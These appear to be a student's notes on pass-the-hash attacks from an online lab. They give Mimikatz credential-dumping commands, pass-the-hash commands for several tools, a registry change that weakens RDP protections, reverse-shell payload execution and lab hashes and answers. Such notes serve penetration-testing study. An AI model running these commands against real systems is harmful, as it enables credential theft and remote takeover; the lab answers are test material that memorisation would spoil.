

`https://www.revshells.com/` it generates reverse shell one liners
`https://gist.githubusercontent.com/insi2304/484a4e92941b437bad961fcacda82d49/raw/66196c71dedacb17f41f90840260fb3216f0da85/Mimikatz-cheatsheet` - mimikatz cheatsheet

> Hash is used instead of a plaintext password

# Window host

## Mimikatz

```ps1
mimikatz.exe privilege::debug "sekurlsa::pth /user:<username> /<hash-type_NTLM/rc4>:<Hash> /domain:<Domain> /run:<Program_to_run>.exe" exit
```

### To dump hashes in current session

```ps1
mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit
```

## Invoke-TheHash for SMB

Within the directory containing the tool

```ps1
$ Import-module .\Invoke-TheHash.psd1
$ Invoke-SMBExec -Target <target_ip> -Domain <domain_name> -Username <username> -Hash <hash> -Command <payload>
```

## Invoke-TheHash for WMI

```ps1
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target <target_name> -Domain <domain_name> -Username <username> -Hash <hash> -Command <payload>
```

# Linux

## Impacket-PsExec

```shell
impacket-psexec <user>@<ip> -hashes :<hash>
```

Similar tools:

- impacket-wmiexec
- impacket-atexec
- impacket-smbexec

## crackmapexec

```shell
crackmapexec smb <target_ip> -u <username> -d . -H <Hash> -x <command>
```

> **Tip** If password reuse is an issue encountered during actual engagement a great recommendation will be the use of LAPS

## evil-winrm

```shell
evil-winrm -i <ip> -u <username> -H <Hash>
```

## rdp

```shell
xfreerdp  /v:<ip> /u:<username> /pth:<hash>
```

> ***Error***

If this error is encountered it means `Restricted Admin Mode` is disabled. <br>
To enable this mode an entry in registry `DisableRestrictedAdmin` under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` has to be added and set to `0`. To add it: <br>
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

## Limits

- If registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to `0`(by `default`) User Access Control limits this attack. It means that the local admin account (`RID-500`,`'Administrator'`) is only allowed to perform remote administration tasks. Setting it to `1` will alow other admins.

> **Exception** if registry key `FilterAdministratorToken`(default:`disabled`) is set to `1`, even `RID-500` is enrolled in UAC protection.

***Tldr*** UAC protection = no `PtH`

## Lab

---

### Access the target machine using any Pass-the-Hash tool. Submit the contents of the file located at C:\pth.txt

1. start a listner on the attack machine
2. Use xfreerdp to initiate an rdp session

```shell
xfreerdp /u:Administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453 /v:10.129.x.x
```

> Recieved restricted mode error. Need to disable Restricted mode.

3. Using <www.revshells.com>, generate a payload
4. Use crackmapexec to execute a payload

```shell
crackmapexec smb 10.129.x.x -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x "powershell -e base64payload"
```

5. After gaining a powershell session. The value for `DisableRestrictedAdmin`
```shell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

6. RDP session can be initiated now. Use step 2 to initiate the GUI session.
7. Run a privileged powershell session
8. Execute
`cat C:/pth.txt`

### Try to connect via RDP using the Administrator hash. What is the name of the registry value that must be set to 0 for PTH over RDP to work? Change the registry key value and connect using the hash with RDP. Submit the name of the registry value name as the answer. 

`DisableRestrictedAdmin`

### Connect via RDP and use Mimikatz located in c:\tools to extract the hashes presented in the current session. What is the NTLM/RC4 hash of David's account? 

1. From the open active directory dashboard domain controller name discovered `inlanefreight.htb`
2. Navigate to `C:/tools` directory using the powershell session
3. Use mimikatz to dump the hashes in the current session. Execute the following command to dump hashes and store it in a file.

```ps1
(./mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit) | Out-File -FilePath "filename.txt"
 ```

Use the following command to dump hashes then store it in a file then convert into a `base64` code and store it in a file for easy transfer.

```ps1
(./mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit) | Out-File -FilePath "output.txt"; [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((Get-Content -Path "output.txt" -Raw)))| Out-File -FilePath "base64output.txt"
```

> c39f2beb3d2ec06a62cb887fb391dee0

### Using David's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\david and read the file david.txt.

1. Use mimikatz to start a shell session for user david
`mimikatz privilege::debug "sekurlsa::pth /user:david /NTLM:c39f2beb3d2ec06a62cb887fb391dee0 /domain:inlanefreight.htb /run:cmd.exe" exit`
2. In the new cmd session use notepad \\DC01\david\david.txt

### Using Julio's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\julio and read the file julio.txt

1. From the hash dump julio's hash is `64f12cddaa88057e06a81b54e73b949b` and domain is `inlanefreight.htb`
2. Use mimikatz to start a shell session for user julio
`mimikatz privilege::debug "sekurlsa::pth /user:julio /NTLM:64f12cddaa88057e06a81b54e73b949b /domain:inlanefreight.htb /run:cmd.exe" exit`
3. In the new cmd session use notepad \\DC01\julio\julio.txt

### Using Julio's hash, perform a Pass the Hash attack, launch a PowerShell console and import Invoke-TheHash to create a reverse shell to the machine you are connected via RDP (the target machine, DC01, can only connect to MS01). Use the tool nc.exe located in c:\tools to listen for the reverse shell. Once connected to the DC01, read the flag in C:\julio\flag.txt.

1. Use `nc.exe` to start a listener
2. From <www.revshells.com> generate a payload
3. Import the module `Invoke-TheHash`

```ps1
Import-Module Invoke-TheHash
```

4. use Invoke-WMIExec to connect and run the payload

```ps1
Invoke-WMIExec -target DC01 -domain inlanefreight.htb -username julio -hash 64f12cddaa88057e06a81b54e73b949b -command <payload>
```

5. Using the reverse shell get the flag

### Optional: John is a member of Remote Management Users for MS01. Try to connect to MS01 using john's account hash with impacket. What's the result? What happen if you use evil-winrm?. Mark DONE when finish.

- Impacket does not work but evil-winrm does due to some SMB properties

> John's hash `c4b0e1b10c7ce2c4723b4e2407ef81a2`
